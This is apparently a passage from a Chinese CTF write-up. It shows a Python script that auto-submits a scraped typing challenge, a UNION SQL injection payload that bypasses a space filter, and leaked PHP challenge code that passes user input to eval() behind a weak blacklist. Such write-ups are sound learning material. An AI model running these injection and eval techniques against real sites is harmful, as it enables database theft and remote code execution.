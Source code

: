 

这个题让我们在一秒内打出八句英文，显然我们人力是不可能做到的，所以我们使用python 的requests来提交

由于英文在/start下，我们用BeautifulSoup获取id=text标签名

![image-20241007184600065](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410071846155.png)

然后我们进行抓包发现，表格提交到/sumbit下，那我们就能写脚本了

```
import requests
from bs4 import BeautifulSoup
url="http://eci-2zedc18yc0kuhpbs5row.cloudeci1.ichunqiu.com/start"
session=requests.session()
r=session.get(url)
soup=BeautifulSoup(r.text,"html.parser")
text_content = soup.find(id="text").get_text()
print(r.text)
data={

    "user_input":text_content
}
print(text_content)
url="http://eci-2zedc18yc0kuhpbs5row.cloudeci1.ichunqiu.com/submit"
r=session.post(url,data=data)
print(r.text)
```

得到flag

![image-20241007184657869](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410071846904.png)



### 谢谢皮蛋 plus

![image-20241008214410173](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410082144396.png)

经过测试，过滤了空格和and，我们使用联合注入

具体的自己写

```
-1"/**/union/**/select/**/group_concat(id,des,value),1/**/from/**/Fl4g#
```



### 遗失的拉链

我们扫描目录，发现有个www.zip文件

```
<?php
error_reporting(0);
//for fun
if(isset($_GET['new'])&&isset($_POST['star'])){
    if(sha1($_GET['new'])===md5($_POST['star'])&&$_GET['new']!==$_POST['star']){
        //欸 为啥sha1和md5相等呢
        $cmd = $_POST['cmd'];
        if (preg_match("/cat|flag/i", $cmd)) {
            die("u can not do this ");
        }
        echo eval($cmd);
    }else{
        echo "Wrong";

    } 
}
```